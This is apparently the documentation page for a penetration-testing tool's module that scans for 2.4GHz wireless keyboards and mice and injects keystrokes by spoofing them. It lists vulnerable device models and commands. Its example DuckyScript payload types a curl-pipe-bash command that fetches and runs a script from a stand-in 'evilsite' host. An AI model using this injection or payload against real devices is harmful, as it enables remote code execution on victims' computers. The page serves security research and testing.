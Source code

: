 ```yaml
---
title: "HID on 2.4Ghz"
date: 2019-02-25T11:10:28+01:00
draft: false
weight: 4
---
```


This module, which is a port of [Bastille's mousejack attack](https://www.mousejack.com/), performs scanning and frames injection for HID devices on the 2.4Ghz spectrum, using Nordic Semiconductor nRF24LU1+ based USB dongles and Bastille's [RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware).

The module will work with one of the devices supported by RFStorm:

* CrazyRadio PA USB dongle
* SparkFun nRF24LU1+ breakout board
* Logitech Unifying dongle (model C-U0007, Nordic Semiconductor based)

{{% notice warning %}}
In order for this module to work, you need to make sure you installed the [Bastille’s RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware) on one of the supported devices.
{{% /notice %}}

It is known to support detection and [DuckyScript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) injection for the following devices:

* Microsoft Wireless Keyboard 800
* Microsoft Wireless Mouse 1000
* Microsoft Wireless Mobile Mouse 3500
* Microsoft All-In-One Media Keyboard
* Microsoft Sculpt Ergonomic Mouse
* Logitech Wireless Touch Keyboard K400r
* Logitech Marathon M705 Mouse
* Logitech Wave M510 Mouse
* Logitech Wireless Gaming Mouse G700s
* Logitech Wireless M325 Mouse
* Logitech K750 Wireless Keyboard
* Logitech K320 Wireless Keyboard
* Dell KM636 Wireless Mouse and Keyboard
* AmazonBasics MG-0975 Wireless Mouse

### Commands

#### `hid.recon on`

Start scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.recon off`

Stop scanning for HID devices on the 2.4Ghz spectrum.
#### `hid.show`

Show a list of detected HID devices on the 2.4Ghz spectrum.
#### `hid.sniff ADDRESS`

Start sniffing a specific ADDRESS in order to collect payloads, use 'clear' to stop collecting.
#### `hid.inject ADDRESS LAYOUT FILENAME`

Parse the DuckyScript `FILENAME` and inject it as HID frames spoofing the device `ADDRESS`, using the `LAYOUT` keyboard mapping (available layouts: `BE BR CA CH DE DK ES FI FR GB HR IT NO PT RU SI SV TR US`).

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `hid.lna` | `true` | If true, enable the LNA power amplifier for CrazyRadio devices. |
| `hid.hop.period` | `100` | Time in milliseconds to stay on each channel before hopping to the next one. |
| `hid.ping.period` | `100` | Time in milliseconds to attempt to ping a device on a given channel while in sniffer mode. |
| `hid.sniff.period` | `500` | Time in milliseconds to automatically sniff payloads from a device, once it's detected, in order to determine its type. |
| `hid.show.filter` | | Defines a regular expression filter for `hid.show`. |
| `hid.show.sort` | `mac desc` | Defines sorting field (mac, seen) and direction (asc or desc) for `hid.show`. |
| `hid.show.limit` | `0` | Defines limit for `hid.show`. | 

### Examples

Enable HID discovery, use the `ticker` module to display detected devices, wait for the device `32:26:9f:a4:08` to be detected and inject the `ducky.txt` script as HID frames using the US keyboard layout:

```sh
> set ticker.commands clear; hid.show; events.show 10
> hid.recon on
> ticker on
# ... wait for the device to be detected, using `hid.show` ...
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Example `ducky.txt` (for a complete list of available commands [see the documentation](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)):

	GUI SPACE
	DELAY 200
	STRING Terminal
	ENTER
	DELAY 500
	STRING curl -L http://www.evilsite.com/commands.sh | bash
	ENTER

